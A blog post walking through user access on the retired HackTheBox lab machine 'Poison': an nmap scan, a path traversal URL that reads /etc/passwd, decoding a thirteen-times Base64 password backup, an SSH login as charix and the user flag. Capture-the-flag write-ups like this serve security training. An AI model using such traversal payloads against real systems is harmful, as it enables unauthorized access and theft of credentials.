 +++
author = "Dan Salmon"
date = 2018-10-18T04:33:52Z
description = "My guide to getting user access on Poison"
draft = false
tags = ["hackthebox", "ctf"]
slug = "hackthebox-poison"
title = "HackTheBox 'Poison' - Own User Guide"
type = "post"
+++

**Note:** *If you are currently trying to get access to this box, I highly recommend you try it yourself first and only use this guide if you really are stuck.*
<br />
<br />


### Intro

Now that the Poison box is retired on hackthebox, we can talk publicly about how to gain access to this machine. While this machine was active, I only took the time to gain user access, not all the way to root. There are multiple ways to get access on Poison, but I'm just showing the way I took which is one of the shortest routes to the user. 


### Machine Overview

All we know about this box initially is that it's running FreeBSD and that most users who have completed it rate it as relatively easy to exploit. 

![poison-overview](../images/poison-overview.png)


### Steps

As with all pentests, we must start with recon. Let's start by port scanning the box.

```shell
nmap -sC -sV -oA hackthebox-poison 10.10.10.84
```

and the results show:

![poison-scan](../images/poison-scan.png)

So we can see this box only has SSH and HTTP running. Let's see what's running on port 80.

![poison-home](../images/poison-home.png)


Here there's a list of file names and a textbox. If we enter any of the filenames into the text box, the page seems to read the contents of the file and output it to the screen. We're expected to input a file from the list of file names, but let's see what happens if we try to leave the current directory.

In the browser, try to navigate to

```json
http://10.10.10.84/browse.php?file=../../../../../../../../../etc/passwd
```

and we should get the output

```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

Nice! The page is vulnerable to a [Path Traversal attack](https://www.owasp.org/index.php/Path_Traversal). In the output we can see that there are 2 users that have shell access on the box: `charix` and `root`.

This is good information, but not enough to get access into the box. Let's circle back to the files listed on the home page

```
ini.php
info.php
listfiles.php
phpinfo.php
```

Entering `listfiles.php` into the box on the home page lists the files we already know about, but also an unknown file with an interesting name - `pwdbackup.txt`. 

Well let's check that one out!

```json
http://10.10.10.84/browse.php?file=pwdbackup.txt
```

```markdown
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

We can tell it's probably Base64 encoded based on the fact that it ends with an equal sign. Since the hint tells us it's encoded 13x, just run it through a Base64 decoder 13x. After all that we get:

```markdown
Charix!2#4%6&8(0
```

Sure looks like a password to me! Verify this by SSH'ing into the box with this password:

```
ssh charix@10.10.10.84
```

and of course grab the flag to claim

```
$ cat ~/user.txt
eaacdfb2d141b72a589233063604209c
```

Root escalation will be left as an excercise to the reader (because I didn't have time to do it before the box was retired).







